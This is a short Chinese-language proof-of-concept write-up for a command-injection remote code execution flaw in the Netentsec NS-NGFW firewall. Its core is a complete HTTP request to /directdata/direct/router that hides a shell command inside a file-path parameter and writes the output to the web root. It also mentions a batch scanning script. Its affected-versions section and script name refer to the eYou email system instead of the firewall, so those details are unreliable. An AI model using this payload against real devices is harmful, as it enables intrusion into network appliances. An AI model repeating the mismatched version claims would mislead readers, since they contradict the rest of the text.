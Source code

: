# 0x00 软件介绍
网康NGFW：网康Next Generation FireWall，即网康下一代防火墙，网康NS-NGFW是网康下一代防火墙系列中的一款，由于网康目前被奇安信收购，故被称为：奇安信 网康NS-NGFW  
官网：https://www.netentsec.com/product/lists_265.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
漏洞影响的产品版本为亿邮电子邮件系统V8.3-V8.13的部分二次开发版本。  
亿邮电子邮件系统信创版本及V8.13以后版本不受影响。

# 0x04 漏洞复现
burp中发送如下请求
```
POST /directdata/direct/router HTTP/1.1
Host: xxx.xxx.160.154:4430
User-Agent: Mozilla/5.0
Content-Length: 254
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource", 
    "method": "deleteImage", 
    "data": [
        {
            "data": [
                "/var/www/html/d.txt;id > /var/www/html/1.txt"
            ]
        }
    ], 
    "type": "rpc", 
    "tid": 17
}
```
返回如下图  
![image](./pic/0.png)  
此时，再去访问根目录下的1.txt，如下图  
![image](./pic/1.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python3 EYouMailRCE-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
